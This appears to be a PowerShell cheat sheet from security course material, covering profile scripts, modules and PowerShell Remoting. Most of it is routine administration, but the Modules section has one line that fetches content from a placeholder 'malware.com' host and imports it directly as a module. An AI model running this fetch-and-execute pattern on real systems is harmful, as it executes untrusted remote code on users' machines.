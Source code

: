 ## Profile Scripts
```powershell
# edit your profile scripts to make your env persistent (ex: drives)
# - these profile scripts are ran in this order
$profile.AllusersAllHosts # shared by all users via any hosting process 
$profile.AllusersCurrentHost # shared by all via this hosting process
$profile.CurrentUserAllHost # your profile script via any hosting process 
$profile.CurrentUserCurrentHost # your profile via this hosting proc

# open PowerShell w/o your profile script if you think it’s infected
powershell.exe -noprofile
```

## Modules
```powershell
# modules = DLLs or .psm1 scripts (functions only, no executable code!)
Get-Module -ListAvailable # searches $env:PSModulePath for all modules
Import-Module -Name AppLocker # copies a module into your Function drive
Import-Module -Name .\script.psm1 # import a script as a module
Get-Command -Module AppLocker # lists all functions of a module

# download & import a module from the Internet
Import-Module -Name (Invoke-WebRequest -Uri 'http://www.malware.com')

# PowerShell Gallery (NuGet provider) - https://www.powershellgallery.com/
Find-Module <module> # search PowerShell Gallery for a module
Install-Module # install a module from the PowerShell Gallery
Save-Module # download & save - do not install module from the Gallery
Get-InstalledModule # show all modules downloaded from PowerShell Gallery
Update-Module # update a module from PowerShell Gallery
```

## PowerShell Remoting
```powershell
# Requirements:
# - PowerShell 2.0+, WinRM service, TCP ports 5985 & 5986 (WSMAN) open
# -- TCP port 5985: native Windows authentication (Kerberos, Net-NTLM)
# -- TCP port 5986: certificate based authentication (SSL/TLS)
# - member of Local Administrators groups
Enable-PSRemoting -Force # enable PowerShell Remoting (do via GPO)

# interactive command shell
Enter-PSSession -ComputerName $env:COMPUTERNAME # use native Windows auth
Enter-PSSession -UseSSL -Computer box.sans.org # use cert-based auth
Exit-PSSession

# non-interactive command shell
$Output = Invoke-Command -FilePath .\script.ps1 # captures script output
# - opens a PSSession on the local box, and runs a single script

Invoke-Command -FilePath .\script.ps1 -Computer $Box # a remote PSSession
Invoke-Command -ScriptBlock {...} -Computer $Box
# - opens a PSSession on a box somewhere, and runs multiple scripts/cmds
```
